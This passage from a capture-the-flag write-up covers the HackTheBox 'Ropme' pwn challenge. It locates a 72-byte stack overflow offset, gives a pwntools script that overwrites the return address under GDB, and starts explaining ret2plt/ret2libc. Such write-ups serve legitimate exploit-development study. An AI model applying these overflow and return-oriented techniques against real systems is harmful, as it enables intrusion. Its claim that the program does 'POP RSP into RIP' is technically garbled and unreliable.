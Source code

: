 After creating a pattern of 100 bytes and sending the pattern we get a segmentation fault, we can locate the offset of RSP. The offset was 72 as we saw earlier from reversing the program. This means that after 72 bytes we will start overwriting the return address.

![4](/HackTheBox-Pwn-Ropme/4.png)

The reason the program crashed is that it tries to execute invalid instructions, when the function tries to return to the caller it will `POP RSP` into `RIP` attempt to execute. In this case, the main function is trying to return to the caller, but if the vulnerability was in another function such as `example()` then when `example()` tries to return to the caller the program will crash.


## Pwntools

Pwntools is a CTF framework and exploits the development library that is written in Python. This framework makes exploiting programs easy as pie.


### Exploit 1

Here we will attach GDB to the process and send 72 A's and 8 B's

```python
#!/usr/bin/python3

from pwn import *

log.info("Pwnage by memN0ps!!!")

context(os="linux", arch="amd64")
context.log_level="DEBUG"
#context(terminal=['tmux', 'new-window'])

#p = process("./ropme")
p = gdb.debug("./ropme", "b main")

payload = "A" * 72
payload += "B" * 8

p.recvuntil("ROP me outside, how 'about dah?")
p.sendline(payload)

p.interactive()
```


![5](/HackTheBox-Pwn-Ropme/5.png)


## Ret2plt to Ret2system or Ret2libc

A ret2plt or ret2puts is an exploitation technique that calls `puts@plt` function and passes the Global Offset Table (GOT) entry of `puts()` function as a parameter, which causes `puts` to print its own address in C Standard Library (LIBC).
